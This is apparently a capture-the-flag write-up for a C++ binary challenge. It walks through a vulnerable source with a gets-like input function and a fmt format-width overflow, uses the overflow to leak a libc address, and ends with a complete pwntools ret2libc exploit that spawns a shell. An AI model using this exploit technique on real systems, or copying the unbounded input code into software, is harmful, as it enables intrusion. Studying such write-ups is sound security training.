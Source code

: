 The round 2 challenge was named plusplus and was a C++ challenge. The source was provided this time and the description read "_Everything is better in C++_"

### Code Analysis
Here's the provided source
```C++
// g++ -o plusplus plusplus.cxx -w -std=c++23 -lfmt -fno-stack-protector -fPIE

#define NDEBUG

#include <iostream>
#include <string.h>
#include <unistd.h>
#include <fmt/core.h>

#define MAX_BUF_SIZE 0x100
#define MAX_PRINT_SZ 0x50

__attribute__((constructor))
void __constructor__(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int safe_str_input(char *buffer, int size) {
    int sz = -1;
    while(buffer[sz] != '\n') { buffer[++sz] = getchar(); }
    buffer[sz] = 0;
    return sz;
}

int main() {
    // Run me once, shame on you. Run me twice, shame on me.
    char buf[MAX_BUF_SIZE];
    char buf_2[MAX_BUF_SIZE];
    snprintf(buf_2, MAX_BUF_SIZE, "%p", &setvbuf); // help-help-help
    char output[MAX_BUF_SIZE];

    memset(output, 0, MAX_BUF_SIZE);
    for(int i = 0; i < 2; ++i) {

        for(int j=0;j<=i;++j) std::cout << "+";
        std::cout << " ";
        if(safe_str_input(buf, MAX_BUF_SIZE) < 0) break;
        if(i) break;
        size_t sz = strlen(buf);
        if(sz <= 1) continue;
        buf[(sz >= MAX_BUF_SIZE) ? MAX_BUF_SIZE-1 : strcspn(buf, "\n")] = 0;
        fmt::format_to(output, fmt::runtime(buf), MAX_PRINT_SZ);
        std::cout << std::string(output) << std::endl;
    }

    return 0;
}
```

Looking at the code, we see that the program is running two nested loops. The outer loop runs twice and the inner loop runs equal to the outer-loop's counter times. It also places the address of `setvbuf` function in the buffer `buf_2`

In the first run of the outer loop, the inner loop will call the function `safe_str_input` on buffer `buf` with size `MAX_BUF_SIZE` (0x100) and then it will call `fmt::format_to`, our provided input as the `format` argument and the output being stored in `output` buffer and the output was printed on stdout. 
In second run of the outer loop, the inner loop will only call `safe_str_input` and terminate both the inner and outer loop and return from main.

Looking closely at the `safe_str_input` function, we observe that it will keep on reading characters from stdin and writing them into the provided buffer until it receives a newline. It doesn't perform any bounds check for the buffer. It shows behavior similar to the infamous `gets` function. The difference being that `gets` replaces the newline with a null byte but it adds a null-byte after the newline (which will then be replaced by a null byte in main function). Hence a buffer overflow can be caused.

Looking at the protections enabled (can be inferred from the compiler arguments given in the top comment), we find that PIE, Full RELRO and NX are enabled but canary is disabled.
This confirmed that buffer overflow was imminent.

### Exploitation
After finding the format string and buffer overflow vulnerabilities, I was looking for a leak to do a `ret2libc` attack. I thought we could leak the stack contents like we do in C `printf` format string attacks. I pulled up the C++ does for the `fmt::format_to` function and was reading the format string syntax. It uses a syntax similar to Python's `str.format` function.
I tried giving indices to read arguments beyond the provided one (still under the impression that it was similar to `printf` format string).

After attempting multiple indices and types (you can specify the type being printed in the format), the program wasn't letting me print any argument other than the first argument and that only in integer format. The issue was that C++ does runtime checks for verifying argument's indices and types with the ones that we provided during compilation, unlike `printf` that has no runtime checks because it has no runtime type information.

At this point the first hint was released, that read "_The format documentation is quite extensive. You just need to look into expansions_". Expansions are same as those of `printf`. We specify a width of the argument being printed and the value is padding with space (default) or the specified character from the left (default) or the right to make the string have the specified width.
Example expansions:
`printf`: `%<offset>$<width><specifier>`, `%2$20d`, `%20d`, `%-20s`
`fmt`: `{<offset>:<width><specifier>}`, `{2:20d}`, `{:20d}`, `{:-20s}`

With this in mind, I experimented with a few different widths and found out that there were no bound checks on the `output` buffer, so we can overflow `output` and `fmt` wasn't performing any string termination either. Looking at the stack in `gdb`, you get the following layout:
```
[output buffer]
[buf_2 buffer]
[buf buffer]
[saved rbp]
[return address]
```
This reminded me that there is a libc leak present in `buf_2`, I overflowed `output` with `{:256}` and got the following output:
```
+ {:256}
                                                                                                                                                                                                                                                              800x78ea92c88540
++
```
The address at the end is `setvbuf`. Now we have libc base and just need to perform buffer overflow in `buf` buffer, thanks to buffer overflow in `safe_str_input` function.
I did a simple `ret2libc` attack to execute `system` function

### Final Exploit
```py
#!/usr/bin/env python3
from pwn import *

def start() -> tube:
    if args.REMOTE:
        return remote("challs.airoverflow.com", 32297)
    else:
        return elf.process()
    
def attach_gdb() -> None:
    if args.REMOTE or args.NOGDB:
        return
    
    gdb.attach(p, '''
    b *main +730
    continue
               ''')
    input("ATTACHED?")

context.binary = elf = ELF("./plusplus_patched")
libc = elf.libc

POP_RDI = 0x000000000010f75b
RET = POP_RDI + 1
BIN_SH = 0x1cb42f

p = start()

p.sendlineafter("+ ", "{:256}")
libc_leak = int(p.recvline().strip()[2:], 0x10)

libc.address = libc_leak - libc.sym.setvbuf

print(hex(libc.address))

rop = [
    libc.address + POP_RDI, libc.address + BIN_SH,
    libc.address + RET,
    libc.sym.system
]

attach_gdb()

p.sendlineafter("++ ", b'A'*440 + b''.join([p64(x) for x in rop]))

p.interactive()
p.close()
```

### Comments
I really liked the idea of the challenge to show that format string are not limited to C's `printf` and can be helpful even with strict type-checking.